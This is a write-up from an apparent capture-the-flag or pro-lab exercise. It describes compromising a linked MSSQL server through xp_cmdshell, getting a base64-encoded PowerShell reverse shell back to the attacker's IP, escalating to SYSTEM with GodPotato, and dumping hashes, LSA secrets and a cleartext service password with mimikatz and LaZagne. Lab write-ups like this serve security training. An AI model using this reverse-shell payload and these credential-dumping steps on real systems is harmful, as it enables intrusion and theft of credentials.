




If we start by running a NMAP scan on the TCP service:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nmap 192.168.210.19
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-16 21:07 CEST
Nmap scan report for 192.168.210.19
Host is up (0.0094s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
1433/tcp open  ms-sql-s

Nmap done: 1 IP address (1 host up) scanned in 4.17 seconds
```

We can see this is a MSSql server.

But if we try to ping the other sql name we can find from Bloodhound we can see that this is in fact the other sql database:

```
C:\Windows\system32> ping ZSM-SVRCSQL02.INTERNAL.ZSM.LOCAL

Pinging ZSM-SVRCSQL02.INTERNAL.ZSM.LOCAL [192.168.210.19] with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 192.168.210.19:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
```

* * *

## MSSQL:

Now here I totatly missed that we could reach MSSQL02 from MSSQL01 on zsm.local.

We can fireup Metasploit and check for possible links.

```
msf6 exploit(windows/mssql/mssql_linkcrawler) > run

[*] Started reverse TCP handler on 10.10.14.5:443 
[*] 192.168.210.15:1433 - -------------------------------------------------
[*] 192.168.210.15:1433 - Start time : 2023-09-17 10:38:33.763818603 +0200
[*] 192.168.210.15:1433 - -------------------------------------------------
[*] 192.168.210.15:1433 - Attempting to connect to SQL Server at 192.168.210.15:1433...
[+] 192.168.210.15:1433 - Successfully connected to ZPH-SVRSQL01
[+] 192.168.210.15:1433 - Sysadmin on ZPH-SVRSQL01
[*] 192.168.210.15:1433 - 
[*] 192.168.210.15:1433 - -------------------------------------------------
[*] 192.168.210.15:1433 - Crawling links on ZPH-SVRSQL01...
[*] 192.168.210.15:1433 - Links found: 1
[*] 192.168.210.15:1433 - -------------------------------------------------
[-] 192.168.210.15:1433 - Link Path: ZPH-SVRSQL01 -> ZSM-SVRCSQL02 - Connection Failed
[*] 192.168.210.15:1433 - -------------------------------------------------
[*] 192.168.210.15:1433 - End time : 2023-09-17 10:38:35.084689022 +0200
[*] 192.168.210.15:1433 - -------------------------------------------------
[+] 192.168.210.15:1433 - Results have been saved to: /root/.msf4/loot/20230917103835_default_192.168.210.15_crawled_links_547446.txt
[*] Exploit completed, but no session was created.
msf6 exploit(windows/mssql/mssql_linkcrawler) >
```

We can see a link from MSSQL01 to this machine but we couldn't use a tool fot takeover so i will try manualy.

First I will check for all the server available via trusted links, remeber if we get isremote=0 this meas is linked:

```
SELECT srvname, isremote FROM sysservers
```



Nice the MSSQL02 is linked to MSSQL01 now we should be able to execute some commands with:

```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<LINKED_DB>]
```



As you see we have SA execution on the Linked server which means we should be able to get a revshell working!

Checking is XP\_CMDshell is active shows that is actually is:

```
EXECUTE('exec master..xp_cmdshell ''whoami''') AT [ZSM-SVRCSQL02]
```

And running a revshell in Powershell B64 encoded:

```
EXECUTE('exec master..xp_cmdshell ''powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANQAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA''') AT [ZSM-SVRCSQL02]
```

Result in a success:



* * *

## PE:

Knowing that this is the service running on behalf of the MSSQL engine we have some impersonation tokens we can use so far:

```
PS C:\Users\mssql_svc> whoami /all

USER INFORMATION
----------------

User Name          SID                                          
================== =============================================
internal\mssql_svc S-1-5-21-3056178012-3972705859-491075245-6101


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                        
========================================== ================ =============================================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Monitor Users          Alias            S-1-5-32-558                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT SERVICE\MSSQLSERVER                     Well-known group S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003 Enabled by default, Enabled group, Group owner    
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
PS C:\Users\mssql_svc>
```

I will upload god potato and escalate to NT system to get all the interesting out of it! We can start by checking that the tool works as intended:

```
*Evil-WinRM* PS C:\temp> ./GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140706510012416
[*] DispatchTable: 0x140706512603464
[*] UseProtseqFunction: 0x140706511897984
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\658e37dd-cbc5-44e5-8c29-a542ebcc4d03\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000c402-0848-ffff-5b1e-d638b5f67c02
[*] DCOM obj OXID: 0x4da2ac59e1d1789e
[*] DCOM obj OID: 0xa2c75e7cd3a6496d
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 868 Token:0x936  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 168
```

And we can start by getting creds via mimikatz:

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username        Domain    NTLM                              SHA1                                      DPAPI
--------        ------    ----                              ----                                      -----
ZSM-SVRCSQL02$  internal  ad854719bbb6fc1664316a14cc6eb88d  344ab1f3bcba8093a1787365a003034431f9875a
mssql_svc       internal  8cb21ab7f3ee6d782c724216bd88d1d1  1021773d4532a07c928641a92a43f67a80f89c44  172248e145cd56af762fce785850a38a

wdigest credentials
===================

Username        Domain    Password
--------        ------    --------
(null)          (null)    (null)
ZSM-SVRCSQL02$  internal  (null)
mssql_svc       internal  (null)

kerberos credentials
====================

Username        Domain              Password
--------        ------              --------
(null)          (null)              (null)
ZSM-SVRCSQL02$  internal.zsm.local  c9 2f 2e 04 b9 aa 30 8f a9 26 e0 e0 68 63 46 a3 b2 77 4b 7d 06 6a 3e 7e 65 00 d8 b9 88 79 56 b2 23 14 54 4f 9c 10 17 cb
                                    72 7b 5f 5e 4a 4f 7a 41 0e b7 14 b2 6b 65 ba c0 7f 72 f4 85 4e 85 e3 d1 fa aa 30 83 da 94 96 79 37 8d 12 a3 28 9c d0 d1
                                    fa 33 ae 89 ec 5a 13 ee a8 6f ac 1d 3c 95 64 45 ae b8 22 5a 98 f9 b9 f1 cb d0 a4 15 44 c1 8a d2 38 e3 d4 a0 e5 22 1b 2f
                                    89 46 49 20 e0 c9 ce 15 1b 1a f4 6d f7 3c bb de af f2 e4 c7 d1 43 d4 ae 94 f6 f5 9d b0 be a0 e8 61 43 b8 82 b8 22 30 90
                                    29 68 4e cc bc fe 33 77 95 e3 ce 18 56 57 e9 21 61 16 23 f6 09 ca b4 20 35 18 ba 28 76 8f 90 b1 04 f2 11 da 75 c3 dd 0a
                                    ac 59 34 d2 10 99 39 bf 31 1a 7e 26 70 ff f7 57 8b 22 a3 85 e1 cc 64 c5 33 9b 5a e3 e0 e6 84 61 b5 62 2d 13 34 1f fd eb
mssql_svc       INTERNAL.ZSM.LOCAL  (null)
zsm-svrcsql02$  INTERNAL.ZSM.LOCAL  (null)
```

Next the SAM hives where we can grab the local Administrators password hash and save it:

```
meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ZSM-SVRCSQL02
SysKey : 089d55a4ed9f4b67d969139aa7a4bbf5
Local SID : S-1-5-21-2734290894-461713716-141835440

SAMKey : a0e73cf54a9e01be47977b29815a5c18

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 5dc71607c06cf83eea0f3d789bce419c
    lm  - 0: 68f3b7e28fd9b5ad653dc93426549b85
    ntlm- 0: 5dc71607c06cf83eea0f3d789bce419c
    ntlm- 1: cf3a5525ee9414229e66279623ed5c58

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6dfa815eaa4e2ee64a61d69fdd405ebe

* Primary:Kerberos-Newer-Keys *
    Default Salt : ZSM-SVRCSQL02.INTERNAL.ZSM.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : eb1ef42b8f33a1aa497ec83d3159e2adb726eb63df8044c78413d8442c58eb6b
      aes128_hmac       (4096) : 78829c58b6b983f68a9b329246b65f72
      des_cbc_md5       (4096) : 912643ae8f8ac2cb
    OldCredentials
      aes256_hmac       (4096) : 3090e4f67e4e76a9cc4761082bf1ee7f48139064d898453c51c3b28e1d47d014
      aes128_hmac       (4096) : 1bcc5ef9fec5ee8064f376461ff89500
      des_cbc_md5       (4096) : 0d7946bc2ae097e3
    OlderCredentials
      aes256_hmac       (4096) : 4af72c259ee83c599c0681d325b34ed710f0353f5a7a4b541a633d4e12407b89
      aes128_hmac       (4096) : 97939a08869be5e339d02542ecfcd3da
      des_cbc_md5       (4096) : e6cd68dc49d32cb3

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ZSM-SVRCSQL02.INTERNAL.ZSM.LOCALAdministrator
    Credentials
      des_cbc_md5       : 912643ae8f8ac2cb
    OldCredentials
      des_cbc_md5       : 0d7946bc2ae097e3


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
```

And lastly the secrets from LSASS where we could grab the cleartext password from mssql\_Svc but we already found from INTERNAL domain saved into Description field of the user.

```
meterpreter > lsa_dump_secrets 
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ZSM-SVRCSQL02
SysKey : 089d55a4ed9f4b67d969139aa7a4bbf5

Local name : ZSM-SVRCSQL02 ( S-1-5-21-2734290894-461713716-141835440 )
Domain name : internal ( S-1-5-21-3056178012-3972705859-491075245 )
Domain FQDN : internal.zsm.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {f9a6c492-1619-2f39-cf1c-02b9acf580ea}
  [00] {f9a6c492-1619-2f39-cf1c-02b9acf580ea} 780cb3e4a910bbd1413a4e38916620cace95877ff101dae8357ebd53007e7b81

Secret  : $MACHINE.ACC
cur/hex : c9 2f 2e 04 b9 aa 30 8f a9 26 e0 e0 68 63 46 a3 b2 77 4b 7d 06 6a 3e 7e 65 00 d8 b9 88 79 56 b2 23 14 54 4f 9c 10 17 cb 72 7b 5f 5e 4a 4f 7a 41 0e b7 14 b2 6b 65 ba c0 7f 72 f4 85 4e 85 e3 d1 fa aa 30 83 da 94 96 79 37 8d 12 a3 28 9c d0 d1 fa 33 ae 89 ec 5a 13 ee a8 6f ac 1d 3c 95 64 45 ae b8 22 5a 98 f9 b9 f1 cb d0 a4 15 44 c1 8a d2 38 e3 d4 a0 e5 22 1b 2f 89 46 49 20 e0 c9 ce 15 1b 1a f4 6d f7 3c bb de af f2 e4 c7 d1 43 d4 ae 94 f6 f5 9d b0 be a0 e8 61 43 b8 82 b8 22 30 90 29 68 4e cc bc fe 33 77 95 e3 ce 18 56 57 e9 21 61 16 23 f6 09 ca b4 20 35 18 ba 28 76 8f 90 b1 04 f2 11 da 75 c3 dd 0a ac 59 34 d2 10 99 39 bf 31 1a 7e 26 70 ff f7 57 8b 22 a3 85 e1 cc 64 c5 33 9b 5a e3 e0 e6 84 61 b5 62 2d 13 34 1f fd eb 
    NTLM:ad854719bbb6fc1664316a14cc6eb88d
    SHA1:344ab1f3bcba8093a1787365a003034431f9875a
old/hex : b1 de 5b 21 fe a1 7e 45 0d 4e 52 af 1b 40 f0 91 eb b1 cd 6a 66 fe 30 72 6e 30 55 8a bf 47 31 fd fd a7 84 bb 21 42 f2 5f 27 bf f4 09 d8 aa 04 74 5d 18 65 f9 33 71 48 0a 0d e0 5a 40 98 f1 ff c7 5e 87 44 12 d1 05 7c 63 e4 1c 16 dc b2 2a bc f5 11 9d 3f 2f 5c e8 31 df 6c 8b 98 09 a7 31 ac 8a 6e b6 29 ae ac 6d aa f5 76 1e 76 43 9f 20 0e c1 c7 92 a2 98 54 23 d6 1c b0 26 d4 7e 9f 6e 67 22 8f dc ad bc 54 87 1b 7f 50 c8 e1 23 10 49 2f 9f 49 6e 86 9b 7b 5c db 5e 1d 54 77 8f 01 8a 6a 9b 04 9e 67 11 7e c3 67 08 e3 3d f1 47 72 d5 4f 19 e9 20 0f fb fd 03 0d b7 05 2b e1 bc d2 e7 c5 62 75 88 b5 a4 90 a4 be 5b 4d e2 ca d8 f0 b2 39 e8 ee a4 c7 6d 89 86 d3 16 5c 2b 00 85 26 31 71 e6 b8 d3 23 33 0a ab 3e 58 d2 af 2a ff cf 33 1a f0 
    NTLM:6522c8bfd8716727907dacfd0402049b
    SHA1:4158cb0c4e008efb73ec0a077f135aa1847b9b19

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 c5 0e e6 7b 89 01 24 a1 4e c6 73 5e e1 ca ff 33 72 32 11 9f 30 1e 82 f7 c1 ae 10 07 ba 51 0b 38 39 7b 8a ff ff ab 11 2d 
    full: c50ee67b890124a14ec6735ee1caff337232119f301e82f7c1ae1007ba510b38397b8affffab112d
    m/u : c50ee67b890124a14ec6735ee1caff337232119f / 301e82f7c1ae1007ba510b38397b8affffab112d
old/hex : 01 00 00 00 93 d9 75 8d c3 ce b7 93 53 65 c8 d2 a9 b3 73 e6 b6 91 86 08 85 70 66 06 12 e1 9f b3 2d 98 cd 14 85 43 e4 79 0e 49 f7 ed 
    full: 93d9758dc3ceb7935365c8d2a9b373e6b69186088570660612e19fb32d98cd148543e4790e49f7ed
    m/u : 93d9758dc3ceb7935365c8d2a9b373e6b6918608 / 8570660612e19fb32d98cd148543e4790e49f7ed

Secret  : NL$KM
cur/hex : 07 e9 f2 3f 08 49 46 07 02 ce 30 4b 65 d3 86 32 6f 02 5d 36 7d e8 30 33 f4 71 94 44 98 37 cb 1a 05 cc 76 f1 26 e2 94 e7 d3 54 78 1f ef be e9 13 30 3b 62 cb a5 57 75 e6 78 f3 d4 55 5c 68 20 15 
old/hex : 07 e9 f2 3f 08 49 46 07 02 ce 30 4b 65 d3 86 32 6f 02 5d 36 7d e8 30 33 f4 71 94 44 98 37 cb 1a 05 cc 76 f1 26 e2 94 e7 d3 54 78 1f ef be e9 13 30 3b 62 cb a5 57 75 e6 78 f3 d4 55 5c 68 20 15 

Secret  : _SC_MSSQLSERVER / service 'MSSQLSERVER' with username : internal\mssql_svc
cur/text: ToughPasswordToCrack123!

Secret  : _SC_SQLTELEMETRY / service 'SQLTELEMETRY' with username : NT Service\SQLTELEMETRY
```

We could get another flag from the Machine on the local administrators home folder:

```
meterpreter > ls Downloads\\
Listing: Downloads\
===================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2022-11-01 07:27:51 +0100  desktop.ini

meterpreter > ls Desktop\\
Listing: Desktop\
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2022-11-01 07:27:51 +0100  desktop.ini
100666/rw-rw-rw-  33    fil   2022-11-01 20:38:09 +0100  flag.txt

meterpreter > cat Desktop\\flag.txt 
ZEPHYR{G0tt4_l1nk_Up_4m_1_r1gh7?}meterpreter >
```

Next I will run the Lazagne tool and check if we missed something on Browser or other tools but nothing new on this front:

```
*Evil-WinRM* PS C:\temp> ./Lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for c6337aa2-394a-4d08-a60c-87be70a4ddf8
[+] System masterkey decrypted for f99da3f9-26ff-4f1c-9965-af7ea0d11469

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:5dc71607c06cf83eea0f3d789bce419c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

------------------- Pypykatz passwords -----------------

[+] Shahash found !!!
Shahash: 344ab1f3bcba8093a1787365a003034431f9875a
Nthash: ad854719bbb6fc1664316a14cc6eb88d
Login: ZSM-SVRCSQL02$

[+] Shahash found !!!
Shahash: 1021773d4532a07c928641a92a43f67a80f89c44
Nthash: 8cb21ab7f3ee6d782c724216bd88d1d1
Login: mssql_svc

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   C9 2F 2E 04 B9 AA 30 8F A9 26 E0 E0 68 63 46 A3    ./....0..&..hcF.
0020   B2 77 4B 7D 06 6A 3E 7E 65 00 D8 B9 88 79 56 B2    .wK}.j>~e....yV.
0030   23 14 54 4F 9C 10 17 CB 72 7B 5F 5E 4A 4F 7A 41    #.TO....r{_^JOzA
0040   0E B7 14 B2 6B 65 BA C0 7F 72 F4 85 4E 85 E3 D1    ....ke...r..N...
0050   FA AA 30 83 DA 94 96 79 37 8D 12 A3 28 9C D0 D1    ..0....y7...(...
0060   FA 33 AE 89 EC 5A 13 EE A8 6F AC 1D 3C 95 64 45    .3...Z...o..<.dE
0070   AE B8 22 5A 98 F9 B9 F1 CB D0 A4 15 44 C1 8A D2    .."Z........D...
0080   38 E3 D4 A0 E5 22 1B 2F 89 46 49 20 E0 C9 CE 15    8...."./.FI ....
0090   1B 1A F4 6D F7 3C BB DE AF F2 E4 C7 D1 43 D4 AE    ...m.<.......C..
00A0   94 F6 F5 9D B0 BE A0 E8 61 43 B8 82 B8 22 30 90    ........aC..."0.
00B0   29 68 4E CC BC FE 33 77 95 E3 CE 18 56 57 E9 21    )hN...3w....VW.!
00C0   61 16 23 F6 09 CA B4 20 35 18 BA 28 76 8F 90 B1    a.#.... 5..(v...
00D0   04 F2 11 DA 75 C3 DD 0A AC 59 34 D2 10 99 39 BF    ....u....Y4...9.
00E0   31 1A 7E 26 70 FF F7 57 8B 22 A3 85 E1 CC 64 C5    1.~&p..W."....d.
00F0   33 9B 5A E3 E0 E6 84 61 B5 62 2D 13 34 1F FD EB    3.Z....a.b-.4...
0100   42 EE 8A E4 56 4B E8 1C 76 78 AB 99 A5 EE 42 02    B...VK..vx....B.

DPAPI_SYSTEM
0000   01 00 00 00 C5 0E E6 7B 89 01 24 A1 4E C6 73 5E    .......{..$.N.s^
0010   E1 CA FF 33 72 32 11 9F 30 1E 82 F7 C1 AE 10 07    ...3r2..0.......
0020   BA 51 0B 38 39 7B 8A FF FF AB 11 2D                .Q.89{.....-

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   07 E9 F2 3F 08 49 46 07 02 CE 30 4B 65 D3 86 32    ...?.IF...0Ke..2
0020   6F 02 5D 36 7D E8 30 33 F4 71 94 44 98 37 CB 1A    o.]6}.03.q.D.7..
0030   05 CC 76 F1 26 E2 94 E7 D3 54 78 1F EF BE E9 13    ..v.&....Tx.....
0040   30 3B 62 CB A5 57 75 E6 78 F3 D4 55 5C 68 20 15    0;b..Wu.x..U.h .
0050   C1 82 71 23 CA 78 0F 7F 21 9C F6 56 2F E5 1C 63    ..q#.x..!..V/..c

_SC_MSSQLSERVER
0000   30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    0...............
0010   54 00 6F 00 75 00 67 00 68 00 50 00 61 00 73 00    T.o.u.g.h.P.a.s.
0020   73 00 77 00 6F 00 72 00 64 00 54 00 6F 00 43 00    s.w.o.r.d.T.o.C.
0030   72 00 61 00 63 00 6B 00 31 00 32 00 33 00 21 00    r.a.c.k.1.2.3.!.
0040   44 DE 0C 92 22 81 27 F4 9D 44 2E AD 75 1E 38 7E    D...".'..D..u.8~

_SC_SQLTELEMETRY
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   54 2D 07 0B C4 3A 89 83 90 FC 65 E8 02 59 FB 1A    T-...:....e..Y..


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 19.759042024612427
```

And lastly I will run WInpeas as well and rapport if I missed something:

```
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ System Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ

ÉÍÍÍÍÍÍÍÍÍ͹ Basic System Information
È Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    OS Name: Microsoft Windows Server 2022 Datacenter
    OS Version: 10.0.20348 N/A Build 20348
    System Type: x64-based PC
    Hostname: ZSM-SVRCSQL02
    Domain Name: internal.zsm.local
    ProductName: Windows Server 2022 Datacenter
    EditionID: ServerDatacenter
    ReleaseId: 2009
    BuildBranch: fe_release_svc_prod2
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United Kingdom)
    TimeZone: (UTC+00:00) Dublin, Edinburgh, Lisbon, London
    IsVirtualMachine: True
    Current Time: 17/09/2023 10:34:08
    HighIntegrity: True
    PartOfDomain: True
    Hotfixes: KB5022507, KB5012170, KB5026370, KB5026493, 


ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ Interesting Events information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ

ÉÍÍÍÍÍÍÍÍÍ͹ Printing Explicit Credential Events (4648) for last 30 days - A process logged on using plaintext credentials

  Subject User       :         ZSM-SVRCSQL02$
  Subject Domain     :         internal
  Created (UTC)      :         17/09/2023 04:14:15
  IP Address         :         -
  Process            :         C:\Windows\System32\services.exe
  Target User        :         mssql_svc
  Target Domain      :         internal

   =================================================================================================

  Subject User       :         ZSM-SVRCSQL02$
  Subject Domain     :         internal
  Created (UTC)      :         17/09/2023 04:14:14
  IP Address         :         -
  Process            :         C:\Windows\System32\services.exe
  Target User        :         SQLTELEMETRY
  Target Domain      :         NT Service


